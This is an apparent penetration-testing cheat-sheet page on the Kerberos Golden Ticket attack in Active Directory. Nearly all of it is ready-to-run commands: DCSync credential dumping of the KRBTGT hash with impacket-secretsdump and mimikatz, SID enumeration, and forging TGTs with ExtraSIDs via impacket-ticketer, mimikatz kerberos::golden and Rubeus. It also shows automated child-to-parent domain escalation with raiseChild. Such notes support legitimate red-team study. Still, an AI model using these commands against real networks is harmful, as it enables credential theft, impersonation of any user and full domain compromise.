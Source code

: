 ```yaml
---
icon: ticket-simple
---
```


# Golden Ticket

## <mark style="color:yellow;">ABOUT</mark>

<mark style="color:red;">**Golden Ticket**</mark> is a <mark style="color:purple;">**forged Kerberos TGT**</mark> that an attacker can create after obtaining the **KRBTGT** account hash from Active Directory, allowing them to impersonate any user, including domain administrators, and gain unrestricted access to services across the domain without the need for Active Directory to validate the user’s existence or group membership. The ticket contains a **Privilege Attribute Certificate (PAC)** that defines the user’s identity and privileges, which Windows trusts without cross-checking with the domain controller.&#x20;

<mark style="color:red;">**ExtraSIDs**</mark> [**\[LINK\]**](https://venator17.gitbook.io/bibliotheque/active-directory/movement/trust-abuse/extrasids) can be included in the PAC to simulate inherited privileges, such as previous group memberships, enabling privilege escalation even for accounts that no longer have those roles.

### <mark style="color:blue;">Prerequisites</mark>

1. <mark style="color:orange;">**KRBTGT hash**</mark> for the child domain _(In example we are doing DCSync because for forging we need to have child domain fully compromised)_
2. <mark style="color:orange;">**SID**</mark> for the child domain
3. <mark style="color:orange;">**Name of a Target User**</mark> in the child domain _(does not need to exist! We can make a fake name, like `"hacker"`)_
4. <mark style="color:orange;">**FQDN**</mark> of the child domain

## <mark style="color:yellow;">LINUX</mark>

### <mark style="color:blue;">Preparing</mark>

#### **1. Obtaining the KRBTGT Account's NT Hash**

```shell-session
impacket-secretsdump fia.militech.local/sreed@13.13.13.13 -just-dc-user FIA/krbtgt
```

#### 2. Bruteforce SID's in Domain

> First it enumerates Domain SID via **LSARPC**, then bruteforces last **(RID)** part

> With same way you can grep groups you're interested in, or find common SID's in this site [**\[LINK\]**](https://adsecurity.org/?p=1001)

```powershell
impacket-lookupsid fia.militech.local/sreed@13.13.13.13 | grep "Domain SID"
```

### <mark style="color:blue;">Forging</mark>

```bash
impacket-ticketer -nthash ffffffffffffffffffff -domain FIA.INLANEFREIGHT.LOCAL -domain-sid S-1-22-3334444-55555-666666 -extra-sid /sids:S-1-22-3334444-55555-666666-7331 hacker
```

#### Add Ticket to Memory

```bash
export KRB5CCNAME=hacker.ccache 
```

### <mark style="color:yellow;">All-In-One</mark>

**Impacket** also has the tool <mark style="color:green;">**`raiseChild`**</mark>, which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest.

```bash
impacket-raiseChild -target-exec 13.13.13.13 FIA.MILITECH.LOCAL/sreed
```

## <mark style="color:yellow;">WINDOWS</mark>

### <mark style="color:blue;">Preparing</mark>

#### **1. Obtaining the KRBTGT Account's NT Hash**

```shell-session
mimikatz # lsadump::dcsync /user:FIA\krbtgt
```

#### 2. Get SID of Child Domain

<mark style="color:green;">**`PowerView`**</mark>

```powershell
PS C:\> Get-DomainSID
```

### <mark style="color:blue;">Forging</mark>

> Option <mark style="color:green;">**`/sids`**</mark> is for **ExtraSIDs** attack, explained here [**\[LINK\]**](https://venator17.gitbook.io/bibliotheque/active-directory/movement/trust-abuse/extrasids)

#### <mark style="color:green;">`Mimikatz`</mark>

```shell-session
mimikatz # kerberos::golden /user:hacker /domain:FIA.MILITECH.LOCAL /sid:S-1-22-3334444-55555-666666 /krbtgt:ffffffffffffffffffff /sids:S-1-22-3334444-55555-666666-7331 /ptt
```

#### <mark style="color:green;">`Rubeus`</mark>

```powershell
PS C:\> .\Rubeus.exe golden /rc4:ffffffffffffffffffff /domain:FIA.MILITECH.LOCAL /sid:S-1-22-3334444-55555-666666  /sids:S-1-22-3334444-55555-666666-7331 /user:hacker /ptt
```

#### Check Ticket in Memory

```powershell
PS C:\> klist
```

## <mark style="color:yellow;">RESOURCES</mark>

{% embed url="https://blog.harmj0y.net/redteaming/mimikatz-and-dcsync-and-extrasids-oh-my/" %}

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/golden" %}

{% embed url="https://adsecurity.org/?p=1001" %}
Common SID's
{% endembed %}

{% embed url="https://venator17.gitbook.io/bibliotheque/active-directory/movement/trust-abuse/extrasids" %}
